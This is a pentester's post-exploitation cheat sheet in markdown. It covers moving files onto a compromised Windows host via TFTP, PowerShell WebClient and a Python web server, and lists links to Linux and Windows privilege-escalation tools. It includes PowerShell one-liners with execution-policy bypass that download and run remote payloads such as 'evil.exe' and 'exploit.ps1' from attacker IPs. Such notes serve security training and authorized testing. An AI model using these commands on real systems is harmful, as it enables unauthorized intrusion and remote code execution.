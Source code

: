 # Post Exploitation

## **File Transfers**

- TFTP
  ```bash
    kali@kali:~# mkdir /tftp
    kali@kali:~# atftpd --daemon --port 69 /tftp
    kali@kali:~# cp /usr/share/windows-binaries/nc.exe /tftp/
    
    C:\Users\Bob>tftp -i 10.11.0.5 get nc.exe
    ```
- PowerShell
  ```bash
    C:\Users\Bob> echo $storageDir = $pwd > wget.ps1
    C:\Users\Bob> echo $webclient = New-Object System.Net.WebClient >>wget.ps1
    C:\Users\Bob> echo $url = "http://10.11.0.5/evil.exe" >>wget.ps1
    C:\Users\Bob> echo $file = "new-exploit.exe" >>wget.ps1
    C:\Users\Bob> echo $webclient.DownloadFile($url,$file) >>wget.ps1
    #Finally we run the downloaded script
    C:\Users\Bob> powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -File wget.ps1
  ```
  - Download and execute in PowerShell
    ```ps1
      powershell -Version 2 -nop -exec bypass IEX (New-Object Net.WebClient).DownloadString('http://10.10.10.23/exploit.ps1');
    ```
- HTTP Server with Python 
  ```bash
    python -m SimpleHTTPServer [PORT] 
  ```
  
## PowerShell

### File Transfers
  ```powershell
  powershell -c "(new-object System.net.WebCLient).DownloadFile('http://X.X.X.X/wget.exe','C:\Users\xonork\Desktop\wget.exe')"
  ```
  
## **Linux Privilege Escalation**

- https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/
- [LinPeas](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS)
- [Linux Smart Enum](https://github.com/diego-treitos/linux-smart-enumeration)
- [LinEnum](https://github.com/rebootuser/LinEnum)
- [BeRoot](https://github.com/AlessandroZ/BeRoot)
- [LinuxPrivChecker](https://github.com/sleventyeleven/linuxprivchecker)
- [Unix Privesc Check](https://github.com/pentestmonkey/unix-privesc-check)
- [Privilage Escalation through sudo](https://github.com/TH3xACE/SUDO_KILLER)

## **Windows Privilege Escalation**

- [PowerSploit's Power Up](https://github.com/PowerShellMafia/PowerSploit)
- [Watson](https://github.com/rasta-mouse/Watson)
- [Sherlock](https://github.com/rasta-mouse/Sherlock)
- [BeRoot](https://github.com/AlessandroZ/BeRoot)
- [Windows-Exploit-Suggester](https://github.com/GDSSecurity/Windows-Exploit-Suggester)
- [Windows Privesc Check](https://github.com/pentestmonkey/windows-privesc-check)
- [Windows Exploits](https://github.com/abatchy17/WindowsExploits)
- [Windows Enum](https://github.com/absolomb/WindowsEnum)
- [SeatBelt](https://github.com/GhostPack/Seatbelt)
- [Powerless](https://github.com/M4ximuss/Powerless)
- [JAWS](https://github.com/411Hall/JAWS)
- [winPEAS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/winPEAS/winPEASexe)
- [Windows Exploit Suggester](https://github.com/bitsadmin/wesng)
- [Privesc Check](https://github.com/itm4n/PrivescCheck)
